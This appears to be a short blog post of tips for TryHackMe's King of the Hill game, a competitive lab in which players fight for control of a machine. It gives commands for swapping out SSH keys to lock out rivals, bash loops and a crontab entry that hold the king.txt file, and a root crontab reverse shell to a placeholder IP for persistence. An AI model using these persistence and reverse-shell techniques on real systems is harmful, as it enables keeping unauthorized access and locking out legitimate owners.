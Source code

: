 ## Simple Tricks I use While Playing King Of The Hill

Hey guys, hope you're doing well :) 

For those who are playing [TryHackMe](https://tryhackme.com) [king of the hill](https://www.tryhackme.com/games/koth)... 

These are some tips/tricks I usually do

First thing I do when I get into the machine is deleting ssh keys and put mine

To generate id_rsa & id_rsa.pub you could use ssh-keygen

Then, enter the machine using `ssh -i id_rsa remote_username@remote_host` 

using this simple trick only you can enter the machine using ssh...

To automate putting ur username inside king.txt and make sure that there's no username except yours,u can create a simple script to do that 

```
#!/bin/bash
while :
do
        eval "echo [usernameHere] >> /root/king.txt"
        eval " > /root/king.txt"
done

#this script is created in 1 min :P
```
or by simpler way
```
while [[ $(cat /root/king.txt) != "[usernameHere]" ]]; do echo "[usernamehere]" >> /root/king.txt; done

#this script is created in less than minute :P

```

also u can add your username automatically by putting inside /etc/crontab

`* * * * * echo "[usernameHere]" >> /root/king.txt >/dev/null 2>&1`

and below command can be used to get persistence on the system but run it after getting root access so every minute you can get shell as root in case of someone is trying to kill your terminal else if you do this without getting root you'll get shell as normal user not as root user
`* * * * * /bin/bash -c "/bin/bash -i >& /dev/tcp/[IP_ADDR]/4444 0>&1"`

So this one trick is to check, what loop is running if it is not yours then how you can find that loop and kill it
`<i><b>so for this you can check proccesses running on top in "top" command the running proccesses will be there with their PIDs</b></i>`

<i><b>there is another version of htop is also available in our machines that is "htop" but "htop" may not be available on koth machines</b></i>


#SimpleButEffective
#staySafe
